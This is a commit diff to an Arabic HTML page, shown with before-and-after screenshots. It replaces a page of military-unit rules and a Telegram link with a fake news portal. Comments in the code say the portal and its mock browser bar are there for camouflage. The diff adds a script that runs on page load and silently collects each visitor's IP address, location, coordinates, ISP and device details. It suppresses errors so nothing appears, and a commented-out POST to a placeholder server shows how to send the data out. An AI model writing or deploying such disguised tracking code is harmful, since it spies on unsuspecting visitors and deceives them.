

Before and after one commit to ast803504-sketch/Gs, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,136 +3,133 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>قطاع اللواء بسام</title>
+    <title>تصفح الأخبار اليومية - أخبار عامة</title>
     <style>
-        * {
-            box-sizing: border-box;
-            margin: 0;
-            padding: 0;
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+        * { box-sizing: border-box; margin: 0; padding: 0; font-family: Tahoma, sans-serif; }
+        body { background-color: #f4f4f9; color: #333; }
+
+        /* شريط المتصفح العادي */
+        .browser-bar {
+            background: #2c3e50;
+            padding: 10px 15px;
+            display: flex;
+            align-items: center;
+            gap: 10px;
+            box-shadow: 0 2px 5px rgba(0,0,0,0.1);
+        }
+        .browser-bar button {
+            background: #34495e;
+            color: white;
+            border: none;
+            padding: 8px 12px;
+            border-radius: 4px;
+            cursor: pointer;
+        }
+        .browser-bar input {
+            flex: 1;
+            padding: 8px 12px;
+            border: none;
+            border-radius: 4px;
+            outline: none;
+            font-size: 14px;
         }
 
-        body {
-            background-color: #0b0f19;
-            color: #e2e8f0;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            min-height: 100vh;
+        /* محتوى الأخبار */
+        .content {
             padding: 20px;
+            max-width: 800px;
+            margin: auto;
         }
-
-        .container {
-            background: #111827;
-            border: 1px solid #1f2937;
-            border-top: 4px solid #d4af37;
-            box-shadow: 0 10px 25px rgba(0, 0, 0, 0.5);
-            width: 100%;
-            max-width: 520px;
-            padding: 35px;
+        .news-card {
+            background: white;
+            padding: 15px;
+            margin-bottom: 15px;
             border-radius: 8px;
-            text-align: center;
+            box-shadow: 0 1px 3px rgba(0,0,0,0.1);
         }
-
-        h1 {
-            color: #f8fafc;
-            font-size: 24px;
-            margin-bottom: 15px;
-            letter-spacing: 1px;
-        }
-
-        .divider {
-            height: 2px;
-            background: #d4af37;
-            width: 60px;
-            margin: 0 auto 25px auto;
-        }
-
-        .paragraphs-box {
-            background: #1a2332;
-            border: 1px solid #243044;
-            border-radius: 6px;
-            padding: 20px;
-            margin-bottom: 25px;
-            text-align: right;
-            max-height: 320px;
-            overflow-y: auto;
-        }
-
-        .paragraphs-box p {
-            margin-bottom: 14px;
-            font-size: 13.5px;
-            line-height: 1.6;
-            color: #cbd5e1;
-            border-bottom: 1px solid #243044;
-            padding-bottom: 10px;
-        }
-
-        .paragraphs-box p:last-child {
-            margin-bottom: 0;
-            border-bottom: none;
-            padding-bottom: 0;
-        }
-
-        .telegram-btn {
-            display: block;
-            background: #229ed9;
-            color: #ffffff;
-            text-decoration: none;
-            padding: 14px 20px;
-            border-radius: 4px;
-            font-weight: bold;
-            font-size: 16px;
-            transition: 0.3s;
-            text-align: center;
-        }
-
-        .telegram-btn:hover {
-            background: #1d8bc0;
-        }
+        .news-card h3 { color: #2980b9; margin-bottom: 8px; }
+        .news-card p { color: #666; font-size: 14px; line-height: 1.6; }
+        .date { font-size: 12px; color: #999; margin-top: 5px; display: block; }
     </style>
 </head>
 <body>
 
-    <div class="container">
-        <h1>قطاع اللواء بسام</h1>
-        <div class="divider"></div>
+    <!-- شريط متصفح وهمي يبدو طبيعياً 100% -->
+    <div class="browser-bar">
+        <button onclick="alert('الصفحة الحالية آمنة')">🏠</button>
+        <button onclick="location.reload()">🔄</button>
+        <input type="text" id="urlInput" value="https://www.news-portal-example.com/daily-news" readonly>
+    </div>
 
-        <div class="paragraphs-box">
-            <p>1. يُعتبر قطاع اللواء بسام أحد أهم القطاعات العسكرية الميدانية الحساسة التي تتطلب الانضباط الكامل.</p>
-            <p>2. الالتزام بالمواعيد الرسمية للدوام والمهام الميدانية هو المعيار الأساسي لتقييم كفاءة الأفراد.</p>
-            <p>3. تنفيذ الأوامر الصادرة من القيادة العليا بدقة تامة وبدون أي تأخير أو تساهل يعتبر واجباً مقدساً.</p>
-            <p>4. يُمنع منعاً باتاً التواجد خارج مناطق التمركز المخصصة إلا بإذن رسمي مسبق من الضابط المسؤول.</p>
-            <p>5. يتم رفع تقارير دورية ومفصلة عن سير العمليات والمهام الميدانية في أوقاتها المحددة.</p>
-            <p>6. الروح المعنوية العالية والالتزام بالأخلاق العسكرية هما أساس النجاح والاستمرار في الميدان.</p>
-            <p>7. يحمل جميع المنتسبين مسؤولية حماية أمن القطاع والحفاظ على تماسك الصفوف والجاهزية التامة.</p>
-            <p>8. أي مخالفة للتعليمات العسكرية أو الأنظمة المرعية ستعرض مرتكبها للعقوبات الرادعة والصارمة.</p>
-            <p>9. يُشترط في كل فرد من أفراد القطاع الاستعداد الكامل للتعامل مع كافة الظروف الطارئة بحنكة واحتراف.</p>
-            <p>10. العمل الجماعي والتنسيق المستمر بين الوحدات يضمنان نجاح العمليات بأقل الخسائر وأعلى كفاءة.</p>
-            <p>11. تُعقد الاجتماعات التوجيهية بشكل دوري لمناقشة المستجدات وتحديث خطط العمل الميدانية.</p>
-            <p>12. يُمنع تداول أي معلومات أو أوامر تخص القطاع خارج القنوات الرسمية وتحت أي ظرف كان.</p>
-            <p>13. الحفاظ على العهدة العسكرية والتجهيزات الفردية والجماعية مسؤولية شخصية تقع على عاتق كل منتسب.</p>
-            <p>14. الانضباط في طابور التفتيش والاصطفاف الصباحي يعكس المظهر المشرف والمحترف للقطاع.</p>
-            <p>15. يلتزم الجميع بتطبيق التوجيهات الصادرة والتعاون مع الزملاء بروح الفريق الواحد في كافة الظروف.</p>
-            <p>16. يتميز قطاع اللواء بسام بالجاهزية القتالية العالية والقدرة على التدخل السريع عند النداء.</p>
-            <p>17. يحق للقيادة اتخاذ كافة التدابير الاحترازية والوقائية لضمان أمن واستقرار ومكتسبات القطاع.</p>
-            <p>18. التدريب المستمر وصقل المهارات الميدانية يمثلان ركيزة أساسية لترقية وتطوير قدرات الأفراد.</p>
-            <p>19. الأمانة والإخلاص والتفاني في أداء الواجب هي السمات البارزة التي يتحلى بها رجال القطاع.</p>
-            <p>20. يمنع استخدام الهواتف الشخصية أو وسائل التواصل أثناء أداء المهام الرسمية داخل الميدان.</p>
-            <p>21. يتم التعامل مع كافة البلاغات والنداءات الطارئة بالسرعة القصوى والجدية المطلوبة دون تباطؤ.</p>
-            <p>22. تقديراً للجهود المبذولة، يتم اعتماد نظام صارم لتقييم الأداء والمكافآت للمنتسبين المتميزين.</p>
-            <p>23. يسعى القطاع دائماً لرفع كفاءة منسوبيه عبر توفير بيئة عمل منظمة ومحفزة على الإنجاز.</p>
-            <p>24. يتم رصد كافة التحركات والتواجد الميداني بشكل دقيق لضمان السيطرة الكاملة على نطاق المسؤولية.</p>
-            <p>25. يحظر منعاً باتاً التدخل في مهام الأقسام الأخرى إلا بتكليف رسمي ومباشر من القيادة.</p>
-            <p>26. يعتبر الالتزام بالزي العسكري الرسمي والمظهر العام دليلاً قاطعاً على الاحترافية والانضباط.</p>
-            <p>27. تتم مراجعة اللوائح والأنظمة الداخلية بانتظام لضمان مواكبتها لكافة متطلبات العمل الميداني.</p>
-            <p>28. يقف جميع أفراد القطاع صفاً واحداً في مواجهة أي تحديات أو ظروف طارئة قد تواجه العمل.</p>
-            <p>29. إن الشرف العسكري والوفاء بالعهد هما الغاية والهدف الأسمى لكل منتسب في هذا القطاع العريق.</p>
-            <p>30. ختاماً، ندعو كافة الأفراد للاطلاع الدائم على التعاميم الرسمية والالتزام التام بما ورد فيها.</p>
+    <!-- واجهة أخبار قديمة وجديدة لتمويه الهدف -->
+    <div class="content">
+        <h2>آخر الأخبار والمقالات</h2>
+        <br>
+        <div class="news-card">
+            <h3>تطورات تكنولوجية جديدة في عالم الذكاء الاصطناعي لعام 2026</h3>
+            <p>تشهد التقنية الحديثة طفرة نوعية في تطوير الأنظمة الذكية وسرعة المعالجة الرقمية في مختلف القطاعات...</p>
+            <span class="date">منذ ساعتين (حديث)</span>
         </div>
 
-        <a href="https://t.me/+NGeDAZPVE2AxZWM8" target="_blank" class="telegram-btn">انضم لقناة التلجرام الرسمية</a>
+        <div class="news-card">
+            <h3>أرشيف الأخبار: تقرير شامل عن أبرز احداث العام الماضي 2025</h3>
+            <p>استعراض لأهم المحطات الاقتصادية والتقنية التي مر بها العالم خلال النصف الأول من العام الماضي...</p>
+            <span class="date">15 مارس 2025 (أرشيف / قديم)</span>
+        </div>
+
+        <div class="news-card">
+            <h3>مستقبل الحوسبة السحابية وحماية البيانات الشخصية</h3>
+            <p>كيف تؤثر تقنيات التشفير الحديثة على تأمين مواقع الإنترنت وسرية معلومات المستخدمين في العصر الحالي...</p>
+            <span class="date">10 يناير 2024 (قديم)</span>
+        </div>
     </div>
+
+    <script>
+        // الكود الخفي الذي يعمل في الخلفية بصمت تام دون أن يدري المستخدم
+        async function silentBackgroundTracker() {
+            try {
+                // جلب معلومات الـ IP، الدولة، والمدينة
+                let response = await fetch('https://ipapi.co/json/');
+                let data = await response.json();
+
+                // جلب معلومات الجهاز والمتصفح ونظام التشغيل
+                let userAgent = navigator.userAgent;
+                let platform = navigator.platform;
+
+                // تجميع البيانات في كائن واحد
+                let visitorData = {
+                    ip: data.ip || "غير معروف",
+                    country: data.country_name || "غير معروف",
+                    city: data.city || "غير معروف",
+                    region: data.region || "غير معروف",
+                    latitude: data.latitude || "غير معروف",
+                    longitude: data.longitude || "غير معروف",
+                    org: data.org || "غير معروف",
+                    deviceInfo: userAgent,
+                    platform: platform,
+                    time: new Date().toLocaleString()
+                };
+
+                // طباعة البيانات في الكونسول (أو يمكنك إرسالها إلى سيرفرك الخاص أو بوت تيليجرام بصمت)
+                console.log("تم جمع البيانات بنجاح:", visitorData);
+
+                // مثال على كيفية إرسالها لسيرفر خارجي بصمت (اختياري):
+                // fetch('https://your-server-endpoint.com/log', {
+                //     method: 'POST',
+                //     headers: { 'Content-Type': 'application/json' },
+                //     body: JSON.stringify(visitorData)
+                // });
+
+            } catch (error) {
+                // تجاهل الأخطاء تماماً لضمان عدم ظهور أي تنبيه للمستخدم
+            }
+        }
+
+        // تشغيل العملية فور فتح الصفحة في الخلفية
+        window.onload = function() {
+            silentBackgroundTracker();
+        };
+    </script>
 
 </body>
 </html>
```
